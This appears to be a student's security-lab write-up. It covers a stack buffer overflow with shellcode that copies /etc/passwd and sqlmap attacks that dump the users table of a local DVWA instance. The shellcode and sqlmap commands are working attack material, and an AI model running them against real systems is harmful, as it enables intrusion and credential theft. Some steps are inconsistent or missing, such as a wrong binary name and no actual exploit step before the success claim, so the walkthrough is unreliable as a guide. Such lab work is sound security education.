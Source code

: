 # Lab #1,22110009, Le Cong Bao, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  #### step 1: Create a vulnerable c program
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano vulnerable.c 
  ```
  ![image](https://github.com/user-attachments/assets/227b7284-5d61-466c-a766-f56c8ba2579b)

  #### step 2: Compile the vulnerable c program
  ```bash
     gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
  ```
  
  - -fno-stack-protector: Disables stack protection, making the program vulnerable to buffer overflow attacks.
  - -z execstack: Allows execution of code on the stack, enabling exploitation through injected shellcode.
  #### step 3: Build an Assemply payload
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano shellcode.asm
  ```
  ![image](https://github.com/user-attachments/assets/4f8b0e7d-a38a-4098-bab7-025926764e0b)

  #### step 4: Compile the Asssemply code
  ```bash
     nasm -f elf32 -o shellcode.o shellcode.asm
     ld -m elf_i386 -o shellcode shellcode.o
  ```
  #### step 5: Find the address of the shellcode
  ```bash
     gdb ./redundant_code
  ```
  - in `gdb` set a breakpoint at `main ` run the program with a dummy argument to obtain the address of your shellcode.
  ```bash
     break main
     run $(python -c "print('A'*72)")
     p &buffer
  ```
    
**Conclusion**: The execution of the vulnerable program with the crafted input successfully copies the `/etc/passwd` file to `/tmp/pwfile`. The shellcode executed as intended, demonstrating the buffer overflow attack effectively.

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1. Pull DVWA Docker image
   ```bash
      docker pull vulnerables/web-dvwa
      docker run -d -p 80:80 vulnerables/web-dvwa
   ```
   ![image](https://github.com/user-attachments/assets/c89ed07c-5616-4614-8b55-8f4a27d30e8a)
2. Access DVWA with a web browser and go to: http://localhost Log in with the default user
   ![image](https://github.com/user-attachments/assets/c4c3bba3-24e9-4a2b-a9c3-660a20aeed61)

    User: admin
   Password: password

    ![2](https://github.com/user-attachments/assets/d606eac2-2999-4370-b19c-b959cda33fff)
4. Install SQLMap in WSL
   ```bash
      wsl
      sudo apt install sqlmap
   ```
5. Find the website url to attack
   ![image](https://github.com/user-attachments/assets/aaad26f0-4f4e-49f8-8910-bc69b19387f2)
   enter random to return http://localhost/vulnerabilities/sqli/?id=1
6. Get information from the database
   ```bash
      sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --dbs
   ```
   ![image](https://github.com/user-attachments/assets/71f7e9eb-e266-44a5-841d-d9e0d713a32f)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Choose DVWA database and use sqlmap to get table
```bash
   sqlmap -u "http://localhost/vulnerabilities/sqli" --cookie="PHPSESSID=ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa --tables
```
![image](https://github.com/user-attachments/assets/c614bd0a-1abb-48a3-af4e-a7dc054233a8)

- Choice Database is Users and use sqlmap to get users information
  ```bash
     sqlmap -u "http://localhost/vulnerabilities/sqli" --cookie="ve43k50u0t2qcfnfdhqkmga390; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa -T users --dump
  ```
  ![image](https://github.com/user-attachments/assets/530a460d-f677-4106-9d1c-dd01b55b6b92)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
